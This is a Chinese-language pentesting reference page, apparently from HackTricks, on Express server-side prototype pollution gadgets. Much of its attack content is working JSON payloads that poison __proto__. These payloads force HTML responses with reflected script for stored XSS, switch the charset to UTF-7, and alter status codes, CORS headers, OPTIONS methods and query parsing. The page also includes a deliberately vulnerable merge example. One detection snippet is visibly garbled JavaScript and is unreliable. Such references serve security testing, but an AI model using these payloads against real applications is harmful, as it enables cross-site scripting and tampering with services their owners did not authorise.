 # Express 原型污染工具

{{#include ../../../banners/hacktricks-training.md}}

## 提供 XSS 响应

**有关更多详细信息** [**请查看原始研究**](https://portswigger.net/research/server-side-prototype-pollution)

### 将 JSON 内容类型更改为 HTML

在使用 **JSON 内容类型响应** 的 Express 应用中，反射一个 JSON：
```javascript
app.use(bodyParser.json({ type: "application/json" }))
app.post("/", function (req, res) {
_.merge({}, req.body)
res.send(req.body)
})
```
在这些情况下，XSS 通常不可能与 JSON 内容类型一起使用。然而，通过原型污染，我们可以 **混淆 Express 以提供 HTML 响应。** 这个漏洞依赖于应用程序使用 **`res.send(obj)`** 并使用应用程序/json 内容类型的主体解析器。
```json
{ "__proto__": { "_body": true, "body": "<script>evil()" } }
```
通过**污染** **`body`** 和 **`_body`** 属性，可以导致 **Express 提供 HTML 内容类型** 并反射 `_body` 属性，从而导致存储型 XSS。

### 渲染 UTF7

可以使 express **渲染 UTF-7 内容**：
```json
{ "__proto__": { "content-type": "application/json; charset=utf-7" } }
```
## 安全扫描技术

### JSON 空格

以下 PP 将使 JSON 内的属性具有额外的空格，这不会破坏功能：
```json
{ "__proto__": { "json spaces": " " } }
```
然后反射的 JSON 看起来像：
```json
{"foo":  "bar"} -- Note the extra space
```
### 暴露的头部

以下 PP 小工具将使服务器返回 HTTP 头部：**`Access-Control-Expose_headers: foo`**
```json
{ "__proto__": { "exposedHeaders": ["foo"] } }
```
它需要安装 **CORS 模块**

### **OPTIONS 方法**

使用以下有效载荷，可以 **从 OPTIONS 响应中隐藏一个方法**：
```javascript
// Original reponse: POST,GET,HEAD

// Payload:
{"__proto__":{"head":true}}

//New response: POST;GET
```
### **状态**

可以使用以下 PP 有效负载更改 **返回状态代码**：
```json
{ "__proto__": { "status": 510 } }
```
### 错误

当你用一个原始值（如字符串）赋值给原型时，它会产生一个 **无操作，因为原型必须是一个对象**。如果你尝试将一个原型对象赋值给 `Object.prototype` 本身，这将 **抛出一个异常**。我们可以利用这两种行为来 **检测原型污染是否成功**：
```javascript
;({}).__proto__.__proto__ = {}(
//throws type exception
{}
).__proto__.__proto__ = "x" //no-op does not throw exception
```
### 反射值

当一个应用程序在其响应中包含一个对象时，创建一个带有 **不寻常名称的属性以及 `__proto__`** 可能会很有启发性。具体来说，如果 **仅返回不寻常的属性** 在响应中，这可能表明应用程序的漏洞：
```json
{ "unusualName": "value", "__proto__": "test" }
```
此外，在使用像 Lodash 这样的库的场景中，通过原型污染 (PP) 和直接在对象内部设置属性提供了另一种诊断方法。如果这样的属性在响应中被省略，这表明 Lodash 在合并之前正在验证目标对象中属性的存在性：
```javascript
{"__proto__":{"a":"value1"},"a":"value2","b":"value3"}
// If 'b' is the only property reflected, this indicates prototype pollution in Lodash
```
## Misc

### 允许点

在 Express 中有一个选项，可以让你 **从查询字符串参数创建对象**。\
你可以在一个漏洞 **链** 中使用它来利用 **原型污染漏洞**。
```json
{ "__proto__": { "allowDots": true } }
```
**`?foo.bar=baz` 在 Node 中创建一个对象。**

## 参考

- [https://portswigger.net/research/server-side-prototype-pollution](https://portswigger.net/research/server-side-prototype-pollution)

{{#include ../../../banners/hacktricks-training.md}}
